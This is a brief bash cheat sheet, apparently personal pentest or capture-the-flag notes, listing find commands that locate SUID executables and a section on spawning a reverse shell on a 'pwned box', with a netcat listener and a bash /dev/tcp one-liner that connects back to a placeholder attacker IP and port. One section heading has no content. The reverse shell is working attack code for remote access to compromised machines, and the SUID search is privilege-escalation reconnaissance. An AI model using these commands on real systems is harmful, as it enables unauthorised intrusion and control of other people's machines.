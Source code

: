 # bash
## Examples
### Find all SUID executables
#### Find all SUID files
```
find / -perm /4000
```
#### Find all SUID files owned by root user
```
find / -perm -u=s -type f 2>/dev/null
```
### Find all owned by a group
```

```
### spawn a reverse shell on pwned box
#### open netcat locally
```
nc -lvnp $MY_PORT
```
#### spawn a shell from the remote box
```
bash -c 'bash -i >& /dev/tcp/$MY_IP/$MY_PORT 0>&1'
```